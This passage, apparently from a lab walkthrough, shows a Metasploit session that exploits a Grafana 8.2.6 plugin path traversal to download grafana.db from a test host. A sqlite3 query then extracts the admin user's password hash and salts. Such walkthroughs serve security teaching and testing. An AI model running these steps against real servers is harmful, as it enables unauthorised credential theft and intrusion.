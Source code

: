 ```
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > set FILEPATH /var/lib/grafana/grafana.db
FILEPATH => /var/lib/grafana/grafana.db
msf6 auxiliary(scanner/http/grafana_plugin_traversal) > show options

Module options (auxiliary/scanner/http/grafana_plugin_traversal):

   Name          Current Setting       Required  Description
   ----          ---------------       --------  -----------
   DEPTH         13                    yes       Traversal depth
   FILEPATH      /var/lib/grafana/gra  yes       The name of the file to download
                 fana.db
   PLUGINS_FILE  /usr/share/metasploi  yes       File containing plugins to enume
                 t-framework/data/wor            rate
                 dlists/grafana_plugi
                 ns.txt
   Proxies                             no        A proxy chain of format type:hos
                                                 t:port[,type:host:port][...]
   RHOSTS        172.18.0.2            yes       The target host(s), see https://
                                                 docs.metasploit.com/docs/using-m
                                                 etasploit/basics/using-metasploi
                                                 t.html
   RPORT         3000                  yes       The target port (TCP)
   SSL           false                 no        Negotiate SSL/TLS for outgoing c
                                                 onnections
   TARGETURI     /                     yes       Path to Grafana instance
   THREADS       1                     yes       The number of concurrent threads
                                                  (max one per host)
   VHOST                               no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/grafana_plugin_traversal) > run
[+] Detected vulnerable Grafana: 8.2.6
[*] 172.18.0.2 - Progress   0/40 (0.0%)
[+] alertlist was found and exploited successfully
[+] 172.18.0.2:3000 - File saved in: /home/kali/.msf4/loot/20251004054130_default_172.18.0.2_grafana.loot_485994.db
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Once you got the file, you can take a look using sqlite3 utility to retrieved the hash of the user password, like this:

```
~# sqlite3 /home/kali/.msf4/loot/20251004054130_default_172.18.0.2_grafana.loot_485994.db
sqlite> select * from user;
1|0|admin|admin@localhost||9903b669753ca41106abbee9c8d2d3eb78585d2311df63465bc89e1a76116e5d0dff23d7b0d285d9eb097662e684b94f088d|fFOltNbJ2M|XGn1XBMknf||1|1|0||2025-10-04 09:11:52|2025-10-04 09:39:44|0|2025-10-04 09:39:44|0
sqlite>.q
```
